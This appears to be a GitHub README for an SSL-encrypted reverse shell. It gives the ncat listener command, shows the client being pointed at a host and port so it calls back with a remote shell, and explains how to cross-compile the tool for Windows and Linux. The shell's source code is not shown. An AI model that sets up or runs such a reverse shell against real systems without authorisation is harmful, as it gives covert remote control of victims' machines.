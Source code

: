 <div align="center">

# SSL reverse shell
[![Codacy Badge](https://app.codacy.com/project/badge/Grade/df078d96e7bc4e9ba52541563456d9f6)](https://app.codacy.com/gh/zedek1/SSL-shell/dashboard?utm_source=gh&utm_medium=referral&utm_content=&utm_campaign=Badge_grade)
![GitHub License](https://img.shields.io/github/license/zedek1/SSL-shell)

</div>


### Overview

This is a cross-platform SSL reverse shell with (soon to come) custom commands. No server-side code is needed as it works perfectly with ncat!

---

### Usage


Run ncat with the --ssl flag

```bash
nc -lnvp 8080 --ssl
```

specify lhost host and lport as command line arguments

```
C:\Users\User> sslshell.exe 192.168.48.73 8080
```

If lhost and/or lport is not given from the command-line it will use the compile definitions which are 127.0.0.1 and 8080 by default

---

**Building for Windows targets**

Compiling for windows targets from linux requires a small amount of setup to get openssl to work with mingw cross-compilation. Create a new directory and run the commands below

```bash
git clone https://github.com/openssl/openssl.git && cd openssl
./Configure --cross-compile-prefix=x86_64-w64-mingw32- mingw64
make
```

then in the Makefile replace the absolute path of the openssl directory into CFLAGS and LDFLAGS. These instructions are in Makfile as well. After that you should be able to compile successfully

```bash
make windows
```

---

**Using cmake**

alternatively you can compile on windows using cmake

```powershell
cmake -B build
cmake --build build --config Release
```

---

**Building for Linux targets**


```bash
make linux
```